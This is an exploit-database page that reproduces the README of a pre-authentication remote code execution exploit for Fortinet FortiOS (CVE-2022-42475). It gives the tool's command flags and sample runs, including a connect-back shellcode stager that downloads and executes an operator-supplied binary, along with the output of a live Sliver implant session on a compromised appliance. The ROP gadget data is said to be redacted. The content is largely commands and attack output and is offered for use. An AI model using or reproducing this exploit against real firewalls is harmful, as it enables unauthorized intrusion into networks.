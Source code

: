 ```yaml
---
title: Exploit for Out-of-bounds Write in Fortinet Fortios exploit
url: https://sploitus.com/exploit?id=77A82210-BA24-58B5-8539-C0177DA9E1FB&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-22
fetch_date: 2025-10-04T11:45:44.591576
---
```


# Exploit for Out-of-bounds Write in Fortinet Fortios exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Out-of-bounds Write in Fortinet Fortios CVE-2022-42475

2023-06-21 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=77A82210-BA24-58B5-8539-C0177DA9E1FB
# CVE-2022-42475

## Background
This is the exploit for the blog post here: https://bishopfox.com/blog/exploit-cve-2022-42475

## Redacted Version
This version of the exploit will not work without you, the hacker, supplying the necessary memory addresses for ROP gadgets, etc. The work to determine these data is confidential and proprietary to Bishop Fox and I will not (cannot) publish it alongside this exploit. I trust you understand!

## Modes of operation
* Validate only, no exploit. Determines if vulnerable. No payload, no shellcode.
* __Exploit, but verify only__. Run benign connect-back "ping" shellcode to verify the target is exploitable.
* __Exploit with connect-back binary stager__. The shellcode connects back to the exploit, downloads an encrypted operator-supplied binary file (typically [https://gitub.com/BishopFox/Sliver](Sliver)), decrypts the binary, then calls `execve(binary_file)`.

**Note**: At present the "validate only" mode works across all known versions of FortiOS. However, exploits work _only_ against FortiOS 6.0.4 on 100D hardware. I no longer work at BF and therefore cannot publish the expanded exploit that supports something like 18k targets.

## Requirements
* PyCrypto
* pycryptodome

```
pip3 install PyCrypto
pip3 install pycryptodome
```

## Validate only
This will not make any attempt to exploit the bug, but instead triggers it as a crash (the remote SSL VPN daemon restarts automatically and immediately). The crash is detected heuristically and reported to the operator.

Run it using the `-v` validate flag:

```
$ ./x.py -t 192.168.0.10 -p 8443 -v

    --[ CVE-2022-42475: FortiGate Remote Pre-auth RCE ]--
    --[ Bishop Fox Cosmos Team X                      ]--

[+] Running in validate-only mode. No RCE.
[>] Testing to see if target is vulnerable (may take 10 seconds)
[+] Target '192.168.0.10:8443' appears to be VULNERABLE
```

## Exploit, but validate (feature only available for FortiOS 6.0.4 on 100D appliances at present)
This will trigger the bug, deploy a ROP chain, and jump to shellcode. The shellcode is benign and works as follows:

* Exploit connects to target and triggers the vuln to execute shellcode
* Shellcode connects back to operator's IP:port
* Shellcode sends a single "hello" byte to the exploit: `0xbf`
* Exploit delivers a small encrypted test payload to the shellcode (AES key is random each run)
* Shellcode decrypts the payload and saves it to `/tmp/x` on the FortiGate appliance
* Shellcode sends another single `0xbf` byte to the exploit if payload decryption was successful
* Exploit reads the byte and confirms code execution.

Flags:
```
-t           target host/IP
-p           target port
-e           exploit mode
-c           connect-back only mode
-H and -P    operator's IP:port  (required)
-s           software version of FortiOS (required)
-m           hardware model running FortiOS
-d           turn on debugging
```

An example where we select both software version `6.0.4` and the appliance model `100D`:
```
┌──(kali㉿kali)-[/mnt/hgfs/fortios/CVE-2022-42475]
└─$ sudo ./x.py -t 192.168.0.10 -p 8443 -e -c -H 192.168.0.99 -P 443 -s 6.0.4 -m 100D                   130 ⨯

    --[ CVE-2022-42475: FortiGate Remote Pre-auth RCE ]--
    --[ Bishop Fox Cosmos Team X                      ]--

[+] Generating random 128-bit AES key to encrypt payload
[+] Encrypting payload...
[+] Using cached shellcode. Edit ./x.py (look for 'shellcode.s') to force refresh.
[+] Configured for connect-back to 192.168.0.99:443
[+] Starting encrypted payload listener...
[+] Preparing for exploit...
[+] Sending request!
[+] Importing gadgets from 'exploit_data.json'
[ mtls -l 8888

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

Exploit:
```
$ ./x.py -t 192.168.0.10 -p 8443 -e -f implant5 -H 192.168.0.99 -P 443 -s 6.0.4 -m 100D

    --[ CVE-2022-42475: FortiGate Remote Pre-auth RCE ]--
    --[ Bishop Fox Cosmos Team X                      ]--

[+] Exploit will attempt to execve("implant5") on the target
...
[ use d8d5344b-c666-4c60-9e33-5ce50eb82cad

[*] Active session implant5 (d8d5344b-c666-4c60-9e33-5ce50eb82cad)

[server] sliver (implant5) > whoami

Logon ID:

[server] sliver (implant5) > ls

/ (19 items, 10.0 KiB)
======================
-rw-r--r--   .ash_history        590 B  Tue Jan 31 11:31:57 +0000 2023
drwxr-xr-x   bin                   Tue Jan 31 11:04:35 +0000 2023
drwxr-xr-x   data                  Tue Jan 31 05:24:10 +0000 2023
drwxr-xr-x   data2                 Tue Jan 31 11:40:01 +0000 2023
drwxr-xr-x   dev                   Tue Jan 31 05:26:16 +0000 2023
Lrwxrwxrwx   etc -> data/etc     8 B    Mon Jan 07 18:03:23 +0000 2019
Lrwxrwxrwx   fortidev -> /       1 B    Mon Jan 07 18:03:23 +0000 2019
Lrwxrwxrwx   init -> /sbin/init  10 B   Mon Jan 07 18:03:23 +0000 2019
drwxr-xr-x   lib                   Mon Jan 07 18:03:30 +0000 2019
Lrwxrwxrwx   lib64 -> lib        3 B    Mon Jan 07 18:03:23 +0000 2019
drwxr-xr-x   migadmin              Tue Jan 31 05:23:26 +0000 2023
dr-xr-xr-x   proc                  Tue Jan 31 05:23:13 +0000 2023
drwx------   root                  Mon Jan 07 17:17:34 +0000 2019
drwxr-xr-x   sbin                  Tue Jan 31 05:23:27 +0000 2023
drwxr-xr-x   security-rating       Mon Jan 07 18:01:04 +0000 2019
drwxr-xr-x   sys                   Tue Jan 31 05:23:27 +0000 2023
dtrwxrwxrwx  tmp                   Tue Jan 31 11:40:01 +0000 2023
drwxr-xr-x   usr                   Tue Jan 31 05:23:27 +0000 2023
drwxr-xr-x   var                   Tue Jan 31 05:24:07 +0000 2023
```

Note that Sliver returns `` because FortiOS is kinda mostly sorta Linux, and doesn't always work the way that you'd expect. This is an issue with FortiOS, not Sliver.

## More versions coming soon
I no longer work at Bishop Fox so you'll need to follow the BF github for updates on this.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)